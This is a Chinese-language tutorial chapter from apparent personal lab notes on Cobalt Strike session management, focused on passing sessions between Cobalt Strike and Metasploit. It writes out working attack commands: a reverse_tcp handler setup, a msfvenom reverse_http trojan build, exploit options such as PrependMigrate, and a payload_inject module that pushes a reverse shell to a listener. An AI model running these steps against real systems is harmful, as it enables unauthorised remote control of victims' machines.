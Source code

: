 ```yaml
---
title: 5.Session_Manage
categories:
- Network_Security
- Intranet_Infiltration
- Cobalt_Strike
tags:
- Network_Security
---
```

# 第五章 会话管理

## 1. 不同 listener 之间的会话转移

1. 右键会话(spawn) --> 选择其他的 listener



## 2. 不同的 teamserver 之间的会话转移

1. 在新的 teamserver 中创建监听器 --> 右键会话转移(spawn) --> 选择刚刚新建的监听器



## 3. cobalt strike 派生 metasploit 会话

1. 首先在 metasploit 中创建监听（这里使用 reverse_tcp ）：

    ```bash
    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
    set lhost 192.168.43.106
    set lport 4444
    exploit -j
    ```

    结果：

    ![image-20220124112805508](image-20220124112805508.png)

     补充：

    jobs 命令可以查看后台的任务项。例如：

    ![image-20220124112902547](image-20220124112902547.png)

    使用 `kill <id>` 可以关闭某个任务

2. 在 cobalt strike 中新建监听器，这里根据上文的监听类型，选择对应的监听器种类：

    ![image-20220124113114337](image-20220124113114337.png)

    这里要注意的是：

    1. Payload 要选择之间 msf 中设置的，要选 foreign
    2. 主机和端口要和刚刚在 msf 中设置的一致。

3. 在 cobalt strike 中选择要转移的会话，选择刚刚建立的监听器即可。

    <img src="会话管理.assets/image-20220124113505915.png" alt="image-20220124113505915" style="zoom:80%;" />

    

## 4. metasploit 生成木马和 cobalt strike 会话

1. 首先利用 metasploit 生成一个反弹 http shell：

    `msfvenom -p windows/meterpreter/reverse_http lhost=192.168.43.106 lport=55555 -f exe > shell_tcp_43.106_55555.exe`

2. 在 cobalt strike 中设置监听器。这里的监听器为 windows/beacon_http/reverse_http

    ![image-20220124153005256](image-20220124153005256.png)

3. 靶机执行 shell，获得会话。

    其实这里的 cobalt strike 相当于 msf 的 handler。



## 5. metasploit 利用 exp 将会话转给 cobalt strike

1. 正常使用攻击 exp。
2. 设置 payload 的时候选择与 cobal strike 中设置的监听器相同类型的 payload。例如都是 reverse_http
3. 设置 Lhost 和 Lport 都是 cobalt strike 监听器的主机地址和端口。
4. `set disablepayloadhandler True` 。将 DisablePayLoadHandler 设置为 true。这告诉 metasploit 框架，它不需要在metasploit 框架内创建处理程序来服务有效负载连接。
5. `set PrependMigrate true`。这个选项告诉 metasploit 框架修改其 stager，以便在利用之后立即迁移到另一个进程。此选项对于客户端攻击非常重要。它允许您的会话在被利用的应用程序崩溃或关闭时存活。
6. 个人实验时利用的是 ms16\_032 exp。在 msf 设置 payload 的时候，虽然设置其为 reverse_http，但最终 show options 的时候还是 reverse_tcp。最终在 cobalt strike 中依旧无法获得会话。



## 6. metasploit session 派生 cobalt strike 会话

1. 首先利用 exp 产生 session。

2. 将获得的 session 通过 `background` 置于后台。

3. 利用以下模块：

    ```bash
    use exploit/windows/local/payload_inject
    # 这里设置具体的 session
    set session x
    # 这里设置的 payload 要和 cobalt strike 中设置的监听器的配置一致
    set payload windows/meterpreter/reverse_http
    # cobalt strike 监听器的主机地址
    set lhost 192.168.0.106
    # cobalt strike 监听器的端口地址
    set lport 1234
    set DisablePayloadHandler true
    exploit -j
    ```

4. 结果如下：

    ![image-20220125205227167](image-20220125205227167.png)

    
